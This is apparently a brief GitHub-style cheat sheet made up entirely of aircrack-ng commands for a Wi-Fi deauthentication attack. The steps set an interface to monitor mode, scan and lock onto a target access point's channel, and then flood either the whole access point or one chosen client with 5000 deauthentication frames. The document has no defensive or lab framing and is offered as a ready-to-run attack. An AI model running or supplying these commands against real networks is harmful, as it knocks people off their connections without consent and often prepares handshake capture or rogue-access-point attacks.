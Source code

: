 ### Deauth Attack

sudo airmon-ng start wlan1 (Set interface into monitor mode)

sudo airodump-ng wlan1 (Scan nearby Access Points)

sudo airodump-ng --bssid <Target AP> --channel <Select channel number of target AP> wlan1 (Scan specific AP)

sudo iwconfig wlan1 channel <Select channel number of target AP> (Set wifi interface channel same as target AP) 

sudo aireplay-ng -0 5000 -a <Target BSSID mac address> wlan1 (Start deauth attack for target AP)

sudo aireplay-ng --deauth 5000 -a <BSSID of target AP> -c <BSSID of target client> wlan1 (Start deauth attack for specific client of target AP)
